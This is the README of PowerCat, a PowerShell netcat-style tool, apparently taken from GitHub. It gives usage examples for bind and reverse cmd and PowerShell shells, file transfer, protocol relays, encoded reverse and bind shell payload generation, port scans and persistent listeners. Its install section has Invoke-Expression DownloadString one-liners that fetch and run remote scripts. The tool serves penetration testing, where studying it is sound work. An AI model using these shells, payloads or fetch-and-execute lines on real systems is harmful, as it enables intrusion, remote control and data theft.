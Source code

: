 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded .psm1 File:
    Import-Module PowerCat.psm1
    # Load the functions individually from URL:
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    New-PowerCat
    
    -Listener       # Listen for a connection.                            [Switch]
    -Client         # IPv4 address of a listener to connect to.           [String]
    -Relay          # Format: "<Mode>:10.1.1.1:443"                       [String]
    
    -Mode           # Defaults to Tcp, can also specify Udp, Icmp         [String]
    -Port           # The port to connect to or listen on.                [Int]
    -Execute        # Execute a process.                                  [String]
    -PowerShell     # Execute Powershell.                                 [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
    -Input          # Filepath (string), byte array, or string.           [Object]
    -OutputType     # Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     # Output File Path.                                   [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -Repeat         # Restart after disconnecting.                        [Switch]
    -Payload        # Generate payload.                                   [Switch]
    -Encoded        # Base64 encode payload.                              [Switch]
```
Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
```powershell
    # Basic Listener:
    New-PowerCat -Listener -Port 443
        
    # Basic Client:
    New-PowerCat -Client 10.1.1.1 -Port 443
        
    # Basic Client, Output as Bytes:
    New-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes
```
File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
```powershell
    # Send File:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    # Recieve File:
    New-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
```powershell
    # Serve a cmd Shell:
    New-PowerCat -Listener -Port 443 -Execute cmd
        
    # Send a cmd Shell:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    # Serve a shell which executes powershell commands:
    New-PowerCat -Listener -Port 443 -PowerShell
```
UDP, SMB, and ICMP
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    New-PowerCat -Listener -Port 8000 -Mode Udp
        
    # Send Data Over SMB:
    New-PowerCat -Listener -Mode Smb -PipeName PowerCat
    
    # Send Data Over ICMP:
    New-PowerCat -Listener -Mode Icmp
```
Relays
------
Relays in PowerCat are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # TCP Listener to TCP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    New-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay tcp:9000
```
Generate Payloads
-----------------
Payloads can be generated using New-PowerCatPayload. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCatPayload -Client 10.1.1.15 -Port 443 -Execute cmd 
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCatPayload -Encoded -Listener -Port 8000 -Execute cmd
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    New-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
```
